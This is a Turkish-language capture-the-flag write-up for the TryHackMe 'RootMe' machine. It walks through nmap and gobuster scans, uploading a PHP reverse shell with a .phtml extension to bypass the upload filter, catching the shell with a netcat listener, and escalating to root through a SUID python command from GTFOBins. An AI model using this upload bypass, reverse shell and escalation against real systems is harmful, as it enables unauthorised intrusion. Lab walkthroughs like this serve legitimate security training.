 # RootMe CTF Write up
---
Selam Dostlar RootMe ctf çözümüyle karsınızdayım.

`nmap -sC -sV <İP> -Pn`

```sh
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-02 03:14 EDT
Nmap scan report for 10.10.214.100
Host is up (0.62s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

##### 80 portunun (http) acik oldugunu goruyoruz hemen siteye gidiyoruz:
---------





/index.php de (ana safada) isimize yarayacak birsey yok bizde gobuster/dirb 
ile dizin taraması yapıyoruz.


`gobuster dir -u http://10.10.214.100 -w /usr/share/dirb/wordlists/common.txt`

```sh
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```



##### Bize Verilen çıktıyı inceliyoruz:
--------
Status:403 olarak belirtilen dizinler erisim yetkimizin `olmadığı` dizinler
Status:301 olarak belirttiği dizinler erisim yetkimizin `oldugu` dizinler

##### Erisim yetkimizin olduğu dizinleri inceliyoruz:
------
```
/css dizininde home dizini ve /panel dizinin css kodları var.
/js dizininde bir js kodu var.
/panel dizininde bizi dosya yükleyebileceğimiz bir sayfa karşılıyor.
/uploads dizini yüklenen dosyaların bulunduğu dizin
```
##### Php reverse shell indirmek ve düzenliyoruz:
----
~Reverse Shelli [buradan](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) indirebilirsiniz.
```
Php reverse shelli açıp tun0 ipimizi ve dinleyeceğimiz portu yazıyoruz.
```
##### php reverse shelli /panel adresine yüklüyoruz:
--------
```
Php reverse shell yüklemeye çalışıyoruz ama hata veriyor.`
Buradan php dosyalarını yüklemeyi kabul etmediğini görüyoruz.`
Bunu bypass etmek için uzatısını phtml olarak degistirip yüklüyoruz.`
```
##### Shelli almaya calışıyoruz:
-----
```
/uploads dizinine yuklenen dosyaların gittigini biliyorduk.
Bizde yukledigimiz dosyanın buraya geldiğini görüyoruz.
nc -lvnp (shelle yazdığımız port) yazarak portumuzu dinlemeye alıyoruz.
/uploads dizinine yüklediğimiz shellin üzerine tıklıyoruz
Ve Bağlantı Geliyor
```
##### User flagı buluyoruz:
------
`Hemen bulunduğumuz dizine ls çekiyoruz ve user flagı okuyoruz:`

```
$ cat user.txt
THM{xxxxxxxxxxxxxxx}
```

##### Yetki Yükseltiyoruz:
---
```
find / -user root -perm /4000 2>/dev/null
```
`komutu ile root olarak kullanbileceğimiz progrmaları listeliyoruz.`
`/usr/bin/python ı görüyoruz ve bunla yetki yükseltmeye çalışıyoruz.`

[GTFOBins](https://gtfobins.github.io/) adresinde pythonu aratıyor ve python yetki yükseltme komutunu buluyoruz:
```
-c 'import os; os.setuid(0); os.system("/bin/sh")'
```
`pythonun bulunduğu dizini belirterek (/usr/bin/python) pythonu çalıştırıyor ve yetki yükseltme komutumuzu yazıyoruz.`

```
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

id yazarak root olduğumuzu görüyoruz:
```
uid=0(root) gid=33(www-data) groups=33(www-data)
```

`/root dizini altında bulunan root.txt dosyasını okuyoruz`

```
# cat /root/root.txt
THM{xxxxxxxxxxxxxxxxxxxx}
```







